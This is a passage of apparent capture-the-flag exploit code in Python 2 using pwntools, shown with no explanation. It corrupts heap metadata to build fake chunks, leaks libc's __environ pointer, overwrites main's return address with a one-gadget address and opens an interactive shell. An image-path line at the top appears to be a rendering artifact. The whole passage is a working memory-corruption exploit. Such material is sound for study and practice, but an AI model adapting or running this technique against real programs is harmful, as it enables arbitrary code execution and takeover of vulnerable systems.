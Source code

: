 ```
add(0x100,"f"*0xf8)

fake_addr=0x602040+0x20
size=heap_base-fake_addr+0x20
print hex(size)
payload="b"*0x20+p64(0x11111111)+p64(0xf1)+p64(fake_addr)*2
edit(3,payload)

for i in range(len(p64(size))-len(p64(size).strip('\x00'))+1):
    edit(1,'a'*0x10+p64(size).strip('\x00').rjust(8-i,'f'))

#edit(1,'a'*0x10+p64(size))
#gdb.attach(p)
delete(2)
p.recvuntil("\nDeleted.")
payload="a"*0x20+p64(0)+p64(0x111)+p64(main_arena)+p64(main_arena)
edit(4,payload)
#gdb.attach(p)
getgat=libc_base+0x45216
environ_point=libc_base+libc.symbols['__environ']
payload="A"*0xd0+p64(0x100)+p64(environ_point)+p64(0x100)+p64(0x602148)
add(0x100,payload)
#gdb.attach(p)
p.recvuntil(" # CONTENT: ")
environ_addr=u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))
print "environ_addr="+hex(environ_addr)
main_ret_addr=environ_addr-30*8
print "main_ret _addr="+hex(main_ret_addr)
gdb.attach(p)
edit(2,p64(main_ret_addr))
edit(1,p64(getgat))
p.sendline("q")
p.interactive()

```


